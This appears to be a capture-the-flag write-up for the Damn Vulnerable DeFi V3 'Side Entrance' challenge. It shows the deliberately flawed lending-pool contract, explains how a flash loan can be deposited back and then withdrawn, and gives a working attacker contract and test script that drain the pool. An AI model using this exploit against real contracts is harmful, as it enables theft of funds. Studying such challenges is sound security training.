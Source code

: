 ```yaml
---
title: Damn Vulnerable DeFi V3 - Side Entrance - Solution
date: '2024-07-04'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Damn Vulnerable DeFi V3 - Side Entrance CTF
---
```


# Damn Vulnerable DeFi V3 - Side Entrance - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    mapping(address => uint256) private balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        
        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
}
```

## Solution

To solve this level, we can simply:

1. Request a flash loan.
2. Deposit the borrowed assets back into the pool to increase our balance in the `balances` mapping.
3. Withdraw all funds we "deposited" earlier.

_SideEntranceAttacker.sol_

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


interface IPool {
    function flashLoan(uint256 amount) external;
    function deposit() external payable;
    function withdraw() external;
}


contract SideEntranceAttacker {

    IPool immutable pool;
    address immutable player;

    constructor(address _pool, address _player){
        pool = IPool(_pool);
        player = _player;
    }

    receive() external payable {}

    function attack() external {
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        (bool success, ) = player.call{value: address(this).balance}("");
    }

    function execute() external payable {
        pool.deposit{value: msg.value}();
    }
}
```

_side-entrance.challenge.js_

```javascript
...
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    let attacker = await (await ethers.getContractFactory('SideEntranceAttacker', player)).deploy(
        pool.address, player.address
    );
    await attacker.attack();
});
...
```
